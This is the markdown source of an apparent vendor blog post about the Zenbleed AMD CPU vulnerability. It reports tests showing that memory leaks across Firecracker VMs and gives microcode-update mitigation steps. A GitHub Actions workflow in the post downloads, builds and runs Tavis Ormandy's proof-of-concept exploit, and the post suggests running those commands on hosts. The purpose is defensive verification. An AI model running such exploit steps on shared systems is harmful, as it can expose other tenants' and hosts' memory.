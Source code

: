 ```yaml
---
title: Update your AMD hosts now to mitigate the Zenbleed exploit
description: "Learn how to update the microcode on your AMD CPU to avoid the Zenbleed exploit."
tags:
- images
- packer
- qemu
- kvm
author_img: alex
image: "/images/2023-07-zenbleed/background.png"
date: "2023-07-31"
---
```


On 24th July 2023, [The Register covered a new exploit](https://www.theregister.com/2023/07/24/amd_zenbleed_bug/) for certain AMD CPUs based upon the Zen architecture. The exploit, dubbed Zenbleed, allows an attacker to read arbitrary physical memory locations on the host system. It works by allowing memory to be read after it's been set to be freed up aka "use-after-free". This is a serious vulnerability, and you should update your AMD hosts as soon as possible.

Even more dangerous was the claim by The Register that any level of VM isolation prevents the exploit from working. This is not true. We tested the exploit with a sample GitHub Action running within Firecracker.

We ran a matrix build that creates many VMs running different versions of K3s, then we started a PoC Zenbleed exploit written by [Tavis Ormandy](https://twitter.com/taviso), a security researcher at Google, which scanned for 1000 pieces of data in memory.

We found that the exploit was able to read the memory of the host system, and that the exploit was able to read the memory of other VMs running on the same host.

```yaml
name: build

on:
    pull_request:
        branches:
        - '*'
    push:
        branches:
        - master
        - main
    workflow_dispatch:

jobs:
    build:
        name: specs
        runs-on: actuated
        steps:
        - uses: actions/checkout@v1
        - name: Download exploit
          run: |
            curl -L -S -s -O https://lock.cmpxchg8b.com/files/zenbleed-v5.tar.gz
            tar -xvf zenbleed-v5.tar.gz
            sudo apt install -qy build-essential make nasm
        - name: Build exploit
          run: |
            cd zenbleed
            make
            chmod +x ./zenbleed
        - name: Run exploit for 1000 pieces of data
          run: |
            ./zenbleed/zenbleed -m 1000
```

Full details of the exploit can be found on a microsite created by the security researcher who discovered the vulnerability.

[Zenbleed by Tavis Ormandy](https://lock.cmpxchg8b.com/zenbleed.html#vulnerability)

We didn't see any secrets printed out during the scan, but we did see part of a public SSH key, console output from etcd running within K3s, and instructions from containerd. So we can assume anything that was within memory within one of the other VMs on the host, or even the host itself, could be read by the exploit.

![GHA output from the zenbleed exploit](/images/2023-07-zenbleed/gha.png)
> GHA output from the zenbleed exploit

## Mitigation

AMD has already released a mitigation for the Zenbleed exploit, which requires an update to the CPU's microcode.

[Ed Vielmetti](https://www.linkedin.com/in/edwardvielmetti/), Developer Partner Manager at Equinix told us that mitigation is three-fold:

1. There is an incoming BIOS update from certain vendors that will update the microcode.
2. Updating some OSes like the Ubuntu 20.04 and 22.04 will upgrade the microcode of the CPU.
3. There is a ["chicken bit"](https://www.reddit.com/r/linux/comments/15903hr/zenbleed_a_useafterfree_in_amd_zen2_processors/) that can be enabled which prevents the exploit from working.

I probably don't need to spell this out, but a system update looks like the following, and the reboot is required:

```bash
sudo apt update -qy && \
    sudo apt upgrade -yq && \
    sudo reboot 
```

![An update to the CPU microcode is required](/images/2023-07-zenbleed/microcode.png)

For some unknown reason, both of the Equinix AMD hosts that we use internally broke after running the OS upgrade, so I had to reinstall Ubuntu 22.04 using the dashboard. If for whatever reason the machine won't come up after the microcode update, then you should reinstall the Operating System (OS) using your vendor's rescue system or out of band console, both Equinix Metal and Hetzner have an "easy button" that you can click for this. If there is still an issue after that, reach out to your vendor's support team.

We offer 500 USD of free credit for new Equinix Metal customers to use with actuated, and Equinix Metal have also written up their own guide on workaround here:

* [An Update On the AMD Zen 2 CPU Vulnerability](https://deploy.equinix.com/blog/an-update-on-the-amd-zen-2-cpu-vulnerability/)

## Verifying the mitigation

Since actuated VMs use Firecracker, you should run the above workflow before and after to verify the exploit was a) present and b) mitigated.

![What it looks like when the mitigation is in place](/images/2023-07-zenbleed/mitigated.png)
> Above: What it looks like when the mitigation is in place

You can also run the exploit on the host by copying and pasting the commands from the GitHub Action above.

My workstation uses a Ryzen 9 CPU, so when I ran the exploit I just saw a blocking message instead of memory regions:

```bash
$ grep "model name" /proc/cpuinfo |uniq
model name	: AMD Ryzen 9 5950X 16-Core Processor

./zenbleed -m 100
*** EMBARGOED SECURITY ISSUE --  DO NOT DISTRIBUTE! ***
ZenBleed Testcase -- taviso@google.com

NOTE: Try -h to see configuration options

Spawning 32 Threads...
Thread 0x7fd0d40e8700 running on CPU 0
Thread 0x7fd0d38e7700 running on CPU 1
...
```

## Wrapping up

Actuated uses Firecracker, an open source Virtual Machine Manager that works with Linux KVM to run isolated systems on a host. We have verified that the exploit works on Firecracker, and that the mitigation works too. So whilst VM-level isolation and an immutable filesystem is much more appropriate than a container for CI, this is an example of why we must still be vigilant and ready to respond to security vulnerabilities. 

This is an unfortunate, and serious vulnerability. It affects bare-metal, VMs and containers, which is why it's important to update your systems as soon as possible.
